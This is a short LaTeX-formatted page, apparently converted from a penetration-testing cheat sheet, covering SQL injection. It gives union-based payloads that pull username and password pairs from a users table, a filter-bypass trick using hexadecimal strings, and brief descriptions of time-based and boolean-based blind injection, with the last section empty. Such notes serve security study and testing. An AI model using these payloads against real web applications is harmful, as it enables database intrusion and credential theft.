 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\begin{document}
\begin{enumerate}
\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{MySql}\NormalTok{ [database]}\OperatorTok{>}\NormalTok{ select * from users union select concat(username,0x3a,password),}\ExtensionTok{2}\NormalTok{,3,4 from database.users}\KeywordTok{;}
\end{Highlighting}
\end{Shaded}

  or with group concat

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{MySql}\NormalTok{ [database]}\OperatorTok{>}\NormalTok{ select * from users union select group_concat(username,0x3a,password),}\ExtensionTok{2}\NormalTok{,3,4 from database.users}\KeywordTok{;}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\begin{quote}
{[} ! {]} NOTE: In a web app you might need to finish the sql injection by \textbf{-- -}
\end{quote}

\begin{quote}
{[} ! {]} NOTE: sometimes quotes or double quotes can not be used in web services url, but you can bypass that by using hexadecimal
value \texttt{echo\ "database"\ \textbar{}\ xxd\ -ps} -\textgreater{} 64617461626173650a so table\_schema = ``database'' is the same as table\_schema = 0x6461746162617365
\end{quote}

\hypertarget{sql-injection---time-based}{%
\section*{SQL Injection - Time Based}\label{sql-injection---time-based}}

\textbf{SQL Injection time based} is a technic that attacker can use when the database is not visiblie (Blind) in the web application. The purpose is the same as the
sql injection error based but needs a sleep(5) function to guess the searched values.

\hypertarget{sql-injection---boolean-based}{%
\section*{SQL Injection - Boolean Based}\label{sql-injection---boolean-based}}
\end{document}
